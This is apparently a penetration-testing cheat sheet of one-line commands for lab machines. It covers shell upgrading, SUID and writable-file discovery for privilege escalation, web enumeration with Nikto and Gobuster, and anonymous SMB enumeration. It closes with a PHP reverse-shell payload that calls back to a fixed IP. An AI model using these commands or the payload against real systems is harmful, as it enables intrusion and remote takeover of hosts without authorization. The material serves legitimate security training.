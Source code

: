 # Upgrade a TTY shell
`python -c 'import pty; pty.spawn("/bin/bash")'`

# Search for files owned by root but writeable by current user
`find / -xdev -user root -perm -o+w -type f 2>/dev/null`

# Numerically sort a list of IP addresses
`sort -n -t . -k 1,1 -k 2,2 -k 3,3 -k 4,4 smb-boxes.txt`

# Find SUID0 Binaries
`find / -perm /4000 2>/dev/null`

# Nikto commands

`nikto -host 192.168.1.164 -output 192.168.1.164_80_nikto.txt`

# SMB Commands
`smbclient -L \\\\RED -I 10.1.1.129 -U "" -N`

`smbclient \\\\RED\\kathy -I 10.1.1.129 -U "" -N`

`enum4linux -a 10.1.1.129 | tee enum4linux_output.txt`

# GoBuster commands
`gobuster -u http://192.168.1.164 -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200,204,301,302,307,403,500 -e -o gobuster-web-common-output.txt`

`gobuster -u http://192.168.1.164/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -s 200,204,301,302,307,403,500 -e -o gobuster-web-cgis-output.txt`

`gobuster -u http://192.168.1.164/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -s 200,204,301,302,307,403,500 -e -o gobuster-dir2.3med-output.txt`

`gobuster -u http://192.168.1.164 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -s 200,204,301,302,307,403,500 -x php -e -o gobuster-dir2.3med-php-output.txt`

# Fix BurpSuite errors when communicating with old machines
`java -Djsse.enableSNIExtension=false -jar /usr/bin/burpsuite`

# PHP reverse shell using bash
## Used on a VM when php-reverse-shell.php didn't work
`<?php echo shell_exec("bash -i >& /dev/tcp/10.11.0.141/443 0>&1");?>`

